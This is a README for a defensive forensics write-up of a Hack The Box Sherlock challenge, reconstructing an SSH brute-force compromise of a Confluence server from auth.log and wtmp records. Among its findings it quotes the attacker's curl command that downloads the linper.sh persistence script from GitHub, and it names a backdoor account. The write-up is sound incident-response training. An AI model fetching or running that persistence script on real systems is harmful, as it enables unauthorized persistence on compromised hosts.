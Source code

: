 Sherlock — SSH / auth.log & wtmp Analysis
Overview

This project analyzes the auth.log and wtmp artifacts from the HTB sherlock challenge to investigate an SSH brute-force compromise against a Confluence server. The investigation included:

Identifying the brute-force source IP and confirming successful authentication.

Correlating auth.log events with wtmp records (using utmp.py) to determine when an interactive terminal session was established and its session number.

Tracing post-exploitation activity: creation of a backdoor user and evidence of privileged commands used to download an external script.

Producing a clear timeline, sanitized evidence, and recommendations for remediation.

Key findings (short)

Attacker IP: 65.2.161.68

Compromised user: root

Interactive login (UTC): 2024-03-06 06:32:45

Session number: 37

Backdoor account: cyberjunkie (MITRE: T1136.001)

Observed privileged download: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Importance to cybersecurity

Logs such as auth.log and wtmp are critical sources for incident detection and forensic reconstruction. By correlating authentication events with session records and command evidence, defenders can:

Determine how attackers gained initial access and what actions followed the compromise.

Identify persistence mechanisms (e.g., new accounts) and remove them before further damage.

Recommend concrete hardening steps (disable root SSH, enforce key-based authentication, enable rate-limiting and 2FA) to reduce future risk.

This exercise demonstrates practical skills in log analysis, timeline building, and evidence sanitization — all core capabilities for defenders, incident responders, and forensic analysts.

Usage

The repository includes sanitized logs, utmp.py and writeup.md. These can be used to reproduce the analysis:

Parse wtmp with last -f wtmp or python utmp.py wtmp.

